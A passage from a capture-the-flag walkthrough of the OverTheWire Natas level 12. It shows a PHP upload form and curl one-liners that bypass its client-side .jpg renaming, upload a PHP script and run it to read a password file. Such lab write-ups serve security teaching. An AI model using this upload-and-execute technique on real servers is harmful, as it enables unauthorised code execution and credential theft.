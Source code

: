 ```php

<form enctype="multipart/form-data" action="index.php" method="POST">
<input type="hidden" name="MAX_FILE_SIZE" value="1000" />
<input type="hidden" name="filename" value="<? print genRandomString(); ?>.jpg" />
Choose a JPEG to upload (max 1KB):<br/>
<input name="uploadedfile" type="file" /><br />
<input type="submit" value="Upload File" />
</form>
<? } ?>
```

Doesn't seem like anything special is going on here. All it's doing is generating a random filename and directory for our uploaded file and giving it a `.jpg` extension. Now we just have to figure out how to upload something that will help us get the password.

We can try uploading a simple `php` script to read the flag:

```php
<?php readfile("test.txt")?>
```

The only problem is it gets renamed to a `jpg` when we upload it through the form, which will prevent our script from being executed. However, since the renaming is done on the client side, we can just send our own request without modifying the extension.

First, we need to figure out how to upload the file:

```bash
echo '<?php readfile("/etc/natas_webpass/natas13")?>' | \
curl -s "http://natas12:$natas12_pass@natas12.natas.labs.overthewire.org/" \
-X 'POST' -F "filename=natas12.php" -F "uploadedfile=@-;filename=natas12.php" | \
grep -oP 'href="\Kupload/[[:alnum:]]{10}.php'
```

Then we get the results of the file we just uploaded:

```bash
curl "http://natas12:$natas12_pass@natas12.natas.labs.overthewire.org/$(echo -n '<?php readfile("/etc/natas_webpass/natas13")?>' | curl -s "http://natas12:$natas12_pass@natas12.natas.labs.overthewire.org/" -X 'POST' -F "filename=natas12.php" -F "uploadedfile=@-;filename=natas12.php" | grep -oP 'href="\Kupload/[[:alnum:]]{10}.php')"
```

[*Back to top*](#overthewire---natas)

## Level 13

![natas13_index.jpg](screenshots/natas/natas13_index.jpg)
